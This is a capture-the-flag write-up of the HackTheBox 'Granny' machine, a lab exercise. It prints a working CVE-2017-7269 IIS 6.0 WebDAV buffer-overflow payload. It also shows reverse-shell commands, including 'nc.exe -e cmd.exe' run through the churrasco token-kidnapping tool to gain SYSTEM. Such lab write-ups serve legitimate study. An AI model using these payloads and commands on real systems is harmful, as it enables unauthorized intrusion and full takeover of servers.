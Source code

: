 # Granny | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.2.63
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-12 10:14 UTC
Nmap scan report for 10.129.2.63
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Date: Sat, 12 Dec 2020 10:21:01 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%), Microsoft Windows 2000 S4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   216.32 ms 10.10.14.1
2   216.46 ms 10.129.2.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 205.95 seconds
```
The machine is running Windows with an IIS 6.0 server.

### 2. Check out the web server
When hitting the web server through port 80, I get an "Under Construction" message, informing the user that the site does not have a default page and may be in the process of being developed. I run a dirbust of the main site directory and get a few empty folders.
  
Following this I investigate the server version and discover it is vulnerable to RCE via a buffer overflow, as detailed at https://github.com/edwardz246003/IIS_exploit.

*Buffer overflow in the ScStoragePathFromUrl function in the WebDAV service in Internet Information Services (IIS) 6.0 in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.*.
Given that nmap has identified PROPFIND as a publically-available method, this vulnerability is most likely exploitable.

### 3. Get a shell
I find a reverse shell exploit online.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny]
└──╼ [★]$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny]
└──╼ [★]$ cd iis6-exploit-2017-CVE-2017-7269/
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ chmod +x iis6\ reverse\ shell
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ mv iis6\ reverse\ shell exploit.py
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ ./exploit.py 
usage:iis6webdav.py targetip targetport reverseip reverseport
```
Run it with my listener.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ ./exploit.py 10.129.61.27 80 10.10.14.110 9999
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
Check nc:
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-w9attlsjby]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.110] from (UNKNOWN) [10.129.61.27] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```

### 4. Enumerate from foothold
Straight away just from the cmd header I can tell this is an older version of Windows.
```shell
c:\windows\system32\inetsrv>systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 6 Minutes, 9 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~1998 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 804 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,338 MB
Page File: In Use:         132 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```
This is old enough that it is highly likely that vulnerabilities that will allow privilege escalation are present. Futher research shows this is indeed the case.

### 5. Find something that works
I begin trying known exploits that may work for privesc. To transfer files I set up an SMB server:
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-ah8tqg4ksh]─[/usr/share/doc/python3-impacket/examples]
└──╼ [★]$ sudo python3 smbserver.py jack /home/htb-jib1337/writeups/HackTheBox/HTB_Granny
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
This works great as a subsitute for not having access to powershell.
After a few fails I get to looking at https://www.exploit-db.com/exploits/6705, which is "Token Kidnapping Local Privilege Escalation" this requires a service account with impersonation privileges, which I currently have as the network service.
  
*Basically if you can run code under any service in Win2k3 then you can own Windows, this is because Windows 
services accounts can impersonate.  Other process (not services) that can impersonate are IIS 6 worker processes 
so if you can run code from an ASP .NET or classic ASP web application then you can own Windows too. If you provide 
shared hosting services then I would recomend to not allow users to run this kind of code from ASP.*


### 6. Escalate to SYSTEM

The exploit can be found precompiled online, so I download it into the SMB server directory. I also grab nc.exe so I can run it as part of my command as SYSTEM.
```shell
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-ah8tqg4ksh]─[~/writeups/HackTheBox/HTB_Granny/iis6-exploit-2017-CVE-2017-7269]
└──╼ [★]$ cp /opt/useful/SecLists/Web-Shells/FuzzDB/nc.exe .
```
Following that I can move everything across to the a writeable folder on the target machine.
```shell
c:\windows\system32\inetsrv>cd C:\Windows\Temp

C:\WINDOWS\Temp>copy \\10.10.14.110\jack\nc.exe .
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.110\jack\churrasco.exe .  
        1 file(s) copied.
```
Start my listener, check out the usage and then grab the system token to run nc.
```shell
C:\WINDOWS\Temp>churrasco.exe 
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"

C:\WINDOWS\Temp>churrasco.exe -d "nc.exe -e cmd.exe 10.10.14.110 9998"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 680 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 696 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```
Check out my nc listener and sure enough...
```shell
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-ah8tqg4ksh]─[~/writeups/HackTheBox/HTB_Granny]
└──╼ [★]$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.10.14.110] from (UNKNOWN) [10.129.62.25] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```
